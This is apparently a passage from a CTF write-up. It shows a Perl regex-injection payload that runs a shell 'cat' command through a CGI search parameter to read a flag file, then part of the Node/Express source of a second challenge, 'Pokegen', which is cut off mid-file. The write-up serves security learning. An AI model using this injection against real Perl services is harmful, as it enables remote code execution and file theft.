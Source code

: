 ![](./perl.png)  
  
Payload: ``` /cgi-bin/api.pl?search=(?{print+`cat+/FLAAAG_HERE_NO_ONNE_CAN_GUESSS_M3.wtf`})&language=./content/english.txt```  
   
> Flag: `HCMUS-CTF{learn-me-plz-https://www.rexegg.com/regex-disambiguation.html}`   
## `Pokegen` 
  
Source code:  
```nodejs
// server.js
const express = require("express");
const session = require('express-session');
const config = require("./config");
const MongoClient = require('mongodb').MongoClient;
var db;
const app = express();
const port = process.env.APP_PORT || 1337;
const host = "0.0.0.0";

app.use(session(config.session));
app.set("view engine", "pug");
app.use(express.static("public"));
app.use(express.urlencoded({extended: true}));

app.use((req, res, next) => {
    const allowedType = ["string", "number"];
    for (key in req.query) {
        if (!allowedType.includes(typeof (req.query[key])))
            return res.send("Nice try");
    }
    for (key in req.body) {
        if (!allowedType.includes(typeof (req.body[key])))
            return res.send("Nice try");
    }
    next();
})

app.route("/")
    .all((req, res, next) => {
        if (!req.session.authenticated)
            return res.redirect("/register");
        next();
    })
    .get((req, res) => {
        req.session.user.pokemon = Math.floor(Math.random()*3);
        req.session.user.health = Math.floor(Math.random()*4) + 1;
        req.session.user.power = Math.floor(Math.random()*4) + 1;
        res.render("index", req.session.user);
    });

app.route("/register")
    .all((req, res, next) => {
        if (req.session.authenticated)
            return res.redirect("/");
        next();
    })
```